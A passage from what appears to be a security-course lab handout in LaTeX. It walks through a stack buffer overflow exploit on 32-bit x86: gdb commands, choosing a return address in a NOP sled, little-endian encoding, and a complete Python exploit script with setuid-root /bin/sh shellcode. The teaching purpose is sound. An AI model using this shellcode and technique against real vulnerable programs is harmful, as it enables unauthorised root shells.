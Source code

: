 \documentclass[]{project_plan}
\begin{document}
The sixth statement outputs all the components (nopsled, shellcode,
padding, and eip) in the correct sequence.

\begin{lstlisting}
  chmod a+x exp2
  ./exp2 > out3
\end{lstlisting}

\section{Executing the exploit}
This loads the exploit, executes it, and stops so we can see the stack;
\begin{lstlisting}
  gdb done
  break x
  run $(cat out3)
  info registers
  x/40x $esp
\end{lstlisting}

\includegraphics[width=.5\linewidth]{lab4 exploit.png}

To exploit the program, you need to choose an address to overwrite \$eip.

Ideally, you could use the address of the first byte of the shellcode. However, to provide room for error, it is better to choose an address somewhere
in the middle of the NOP sled.

For the stack status shown, a good address to use is: 0xbffff2b0\\
Choose an appropriate address and note it down, as yours will be different

Update \$eip with the Chosen Address; We need to set \$eip to 0xbffff2b0.

However, because the Intel x86 processor uses a "little-endian" format, the
least significant byte of the address comes first. Therefore, the address
needs to be written in reverse byte order, like this:
\lstinline|eip = '\xb0\xf2\xff\xbf'|

Copy the exp2 script to create a new file: \lstinline|cp exp2 exp3|.
Update the eip value in the script as shown below:
\begin{lstlisting}[language=python]
  #!/usr/bin/python2
  nopsled = '\x90' * 64
  shellcode = (
  '\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
  '\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
  '\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
  )
  padding = 'A' * (112 - 64 - 32)
  eip = '\xb0\xf2\xff\xbf'
  print(nopsled + shellcode + padding + eip)
\end{lstlisting}
\end{document}
